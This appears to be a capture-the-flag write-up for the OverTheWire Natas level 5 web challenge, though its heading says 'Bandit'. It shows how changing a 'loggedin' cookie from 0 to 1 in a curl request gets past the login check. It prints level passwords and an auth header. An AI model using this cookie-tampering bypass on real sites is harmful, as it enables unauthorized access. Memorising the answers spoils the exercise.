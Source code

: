 # BANDIT LEVEL 5

```
http://overthewire.org/wargames/natas/natas5.html
```

```
Username: natas5
Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
URL:      http://natas5.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

We are greeted with the following message..

```
Access disallowed. You are not logged in
```

Let's see what the source, headers and cookies might reveal to us..

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```

Page source has nothing, but we see in RESPONSE header from the server that a cookie
called `loggedin` has been created with a value of `0`.

```
HTTP/1.1 200 OK
Date: Sat, 27 Oct 2018 18:33:18 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 367
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Upon reload of the page, we now see this cookie is passed in our future REQUEST to the
server. Let's try changing it to `1`.

```
curl 'http://natas5.natas.labs.overthewire.org/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'DNT: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Cookie: __cfduid=d773051550db82f7a8a4d2154d95cf23b1539528567; __utmc=176859643; __utmz=176859643.1540523077.10.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utma=176859643.380347011.1539528564.1540653662.1540658153.12; loggedin=1' --compressed
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
</body>
</html>
```

Using the Chrome extension `EditThisCookie`, we can reproduce the result in-browser..

<img src='chrome-edit-cookie.jpg' width=500px>

